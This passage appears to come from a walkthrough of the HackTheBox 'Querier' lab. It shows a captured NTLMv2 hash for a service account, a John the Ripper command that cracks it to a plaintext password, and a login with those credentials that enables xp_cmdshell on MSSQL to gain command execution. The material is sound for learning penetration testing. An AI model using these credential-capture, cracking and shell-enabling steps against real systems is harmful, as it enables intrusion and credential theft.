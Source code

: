     [*] Config file parsed
	[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
	[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
	[*] Config file parsed
	[*] Config file parsed
	[*] Config file parsed
	[*] Incoming connection (10.10.10.125,49680)
	[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
	[*] User QUERIER\mssql-svc authenticated successfully
	[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:93225032453b920287e1b4e1d52ff965:010100000000000080fcd8cc3a65d701d35fb5af8bb57bd9000000000100100057004f006600750068004100460045000300100057004f00660075006800410046004500020010007a005a004b004f00480041004a004600040010007a005a004b004f00480041004a0046000700080080fcd8cc3a65d70106000400020000000800300030000000000000000000000000300000ba6e38d03c16f4e9b703b5df9c2d9a47bc96fdad78d2c8f860228f3d5de020900a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003000000000000000000000000000
	[*] Connecting Share(1:IPC$)
	[-] SMB2_TREE_CONNECT not found myshare
	[-] SMB2_TREE_CONNECT not found myshare
	[*] AUTHENTICATE_MESSAGE (\,QUERIER)
	[*] User QUERIER\ authenticated successfully
	[*] :::00::aaaaaaaaaaaaaaaa
	[*] Disconnecting Share(1:IPC$)
	[*] Closing down connection (10.10.10.125,49680)
    [*] Remaining connections []

Well, Hello there. This looks very much like a hash for a service account called 'mssql-svc', a NTLMv2 hash to be specific.
I took this hash, and copied all of it out to a text file called 'hash.txt' and called on JohnTheRipper to crack this:

    john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt ~/Documents/HackTheBox/Querier/hash.txt 
	Using default input encoding: UTF-8
	Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	corporate568     (mssql-svc)
	1g 0:00:00:06 DONE (2021-06-19 19:49) 0.1562g/s 1399Kp/s 1399Kc/s 1399KC/s correforenz..corococo
	Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
    Session completed

Bingo. Now we have a service account and it's password. Onwards!

## Gaining a shell

Using mssqlclient.py again, this time with the new credentials:

    sudo mssqlclient.py QUERIER/mssql-svc:'corporate568'@10.10.10.125 -windows-auth

Remember I tried to enable the cmdshell and it told me to do one? Yeah... well guess what, attempting to run 'enable_xp_cmdshell' this time round works!

    SQL> enable_xp_cmdshell
	[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
	[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
	SQL> reconfigure
